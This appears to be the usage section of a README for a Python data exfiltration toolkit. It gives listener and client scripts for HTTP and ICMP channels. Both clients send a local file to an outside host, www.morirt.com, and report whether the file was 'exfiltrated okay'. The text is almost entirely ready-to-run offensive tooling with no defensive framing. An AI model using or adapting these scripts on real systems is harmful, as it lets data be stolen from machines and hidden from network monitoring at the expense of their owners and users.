 ## Usage example:
### HTTP Exfilatration Server:
    #!/usr/bin/python
    from exfiltration.http_exfiltration import *
    def main():
    	print "Starting a listener: "
    	listen("127.0.0.1", 80)
    
    if __name__ == "__main__":
    	main()

### HTTP Exfiltration Client:
    #!/usr/bin/python
    
    from exfiltration.http_exfiltration import *
    
    def main():
        FILE_TO_EXFIL = "/bin/bash"
        ADDR = "www.morirt.com"
    
        if send_file(ADDR, FILE_TO_EXFIL) == 0:
            print "File exfiltrated okay."
        else:
            print "Damn thing failed."
    
    if __name__ == "__main__":
        main()
        
### ICMP Server
    #!/usr/bin/python
    
    from exfiltration.icmp_exfiltration import *
    
    def main():
        ADDR = "127.0.0.1"
        TMP_PATH = "/tmp/"
        
        init_listener(ADDR, TMP_PATH)
    
    if __name__ == "__main__":
        main()

### ICMP Exfiltrator
    #!/usr/bin/python
    
    from exfiltration.icmp_exfiltration import *
    
    def main():
        FILE_TO_EXFIL = "/bin/bash"
        ADDR = "www.morirt.com"
        
        if send_file(ADDR, FILE_TO_EXFIL) == 0:
            print "File exfiltrated okay."
        else:
            print "Damn thing failed."
    
    if __name__ == "__main__":
        main()



